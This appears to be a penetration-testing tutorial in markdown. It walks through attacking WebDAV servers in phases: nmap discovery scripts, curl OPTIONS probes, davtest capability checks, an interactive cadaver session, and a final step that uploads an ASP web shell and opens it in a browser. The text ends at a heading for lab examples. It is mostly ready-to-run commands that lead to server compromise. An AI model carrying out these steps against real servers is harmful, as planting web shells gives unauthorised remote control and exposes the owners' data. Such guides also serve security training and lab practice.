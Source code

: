 ### Phase 1: Discovery and Reconnaissance

#### Step 1: Service Discovery
```bash
# Discover WebDAV services
nmap --script http-enum -sV -p 80,443 target
nmap --script http-webdav-scan -p 80,443 target
nmap --script http-methods --script-args http-methods.url-path=/webdav/ target
```

#### Step 2: Directory Enumeration
```bash
# Common WebDAV paths
curl -X OPTIONS http://target/webdav/
curl -X OPTIONS http://target/dav/
curl -X OPTIONS http://target/_vti_bin/
```

### Phase 2: Vulnerability Assessment

#### Step 3: Automated WebDAV Testing
```bash
# Basic capability testing
davtest -url http://target/webdav

# Authenticated testing
davtest -auth username:password -url http://target/webdav
```

### Phase 3: Manual Exploitation

#### Step 4: Interactive WebDAV Access
```bash
# Connect with cadaver
cadaver http://target/webdav
# Enter credentials when prompted
# Explore directory structure
ls
pwd
```

#### Step 5: Web Shell Upload and Execution
```bash
# Upload appropriate web shell based on server platform
put /usr/share/webshells/asp/webshell.asp
# Verify upload
ls
# Access via web browser
```

---

## 🧪 Real Lab Examples
